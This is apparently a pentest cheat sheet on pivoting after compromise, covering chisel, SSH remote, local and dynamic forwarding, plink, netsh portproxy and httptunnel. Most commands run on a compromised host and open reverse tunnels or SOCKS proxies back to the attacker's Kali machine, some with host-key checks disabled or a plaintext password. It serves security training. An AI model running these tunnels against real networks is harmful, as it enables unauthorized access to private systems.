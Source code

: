 # Port Forwarding
## [chisel](https://github.com/jpillora/chisel)
```
# In Kali we start a server
kali@kali:/opt/chisel# ./chisel server -p 8000 --reverse

# In Windows we start a client, and we specify the port to forward
chisel.exe client 10.10.14.5:8000 R:910:localhost:910
```
## [rinetd](https://github.com/samhocevar/rinetd)
It is used for redirect any traffic received to an specific port
- In its config file we have to specify the bindaddress, bindport, connectaddress and connectport:
  ```bash
  kali@kali:~$ cat /etc/rinetd.conf
  ...
  # bindadress bindport connectaddress connectport
  0.0.0.0 80 216.58.207.142 80
  ...
  
  kali@kali:~$ sudo service rinetd restart
  ```
## SSH Local Port Forwarding
### Linux
```bash
kali@kali:~$ sudo ssh -N -L 0.0.0.0:1337:10.0.0.2:80 root@10.0.0.1
```
![image](https://user-images.githubusercontent.com/43812413/199309514-9603a925-3358-4fee-b289-955c892f04ed.png)

## SSH Remote Port Forwarding
### Linux
```bash
user1@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

```bash
ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@10.11.0.4
```

#### SSH wothout password
```bash
# Compromised machine
mkdir keys
cd keys
ssh-keygen

#Kali
nano ~/.ssh/authorized_keys 
from="COMPRIMISED-IP",command="echo 'This account can only be used for port forwarding'", no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhUr4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/US2LoqHxs7OxNq61BLtr4I/MDnin www-data@ubuntu

ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```
### Windows
#### plink
```bash
 cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
 ```


## SSH Dynamic Port Forwarding
- With the **-D** flag we can set a SOCKS4/5 application proxy
  ```
  kali@kali:~$ sudo ssh -N -D 127.0.0.1:8080 user1@10.11.0.128

  kali@kali:~$ cat /etc/proxychains.conf
  ...
  [ProxyList]
  # add proxy here ...
  # meanwile
  # defaults set to "tor"
  socks5 127.0.0.1 8080
  ```

- With the **-R** option, by not including a host after the port, ssh is instructed to create a SOCKS proxy on our Kali Server
  ```bash
  ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/.ssh/id_rsa kali@10.11.0.4
  ```
  

## NETSH Port Forwarding
- Installed by default on every modern version of Windows
- Windows system must have the *IP Helper* running and *IPv6* supports must be enabled.
```bash
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
```
- If theres is some rule in the Firewall that blocks the incoming connections to the specified port
```bash
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
``````

# Tunneling
## httptunnel
- It is used when only HTTP traffic is allowed. If we have a compromised machines we can:
  1. Set-up a SSH Port Forwarding in the target machine, that forwards the traffic to another machine in its private network
    ```bash
    www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 user1@127.0.0.1
    ```
  2. Set-up a HTTP Tunnel between our machine and the compromised one (the compromised one will re-forward the traffic to the port configured in the port forwarding)
    ```bash
    # at the compromised machine
    user1@debian:~$ hts --forward-port localhost:8888 1234
    
    # at our Kali
    htc --forward-port 8080 10.11.0.128:1234
    ```
## [chisel](https://github.com/jpillora/chisel)
```
# In Kali we start a server
kali@kali:/opt/chisel# ./chisel server -p 8000 --reverse

# In the Windows target machine we start a socks5 proxy tunnel
chisel.exe client 1.1.1.1:8000 R:socks
```
- Another way to create a socks tunnel:
  - `./chisel server -p 8000 --reverse` on local box, as usual.
  - `./chisel client 1.1.1.1:8000 R:8001:127.0.0.1:9001` on target box. Now anything I send to localhost:8001 on kali will forward to localhost:9001 on target.
  - `./chisel server -p 9001 --socks5` on target. Now I have a `chisel` server listening on 9001, in socks mode, and a way to get traffic to that port.
  - `./chisel client localhost:8001` socks on Kali box. This connection is forwarded through the first tunnel and connects to the `chisel` server running on the box. Now my local host is listening on port 1080 (default, can change that with arguments) and will send traffic to target, and then proxy it outbound.
  ![image](https://user-images.githubusercontent.com/43812413/206664069-a68cb7ac-7887-48ac-b4a8-dae124fb2b4a.png)

## [Secure Socket Funneling (SSF)](https://github.com/securesocketfunneling/ssf)

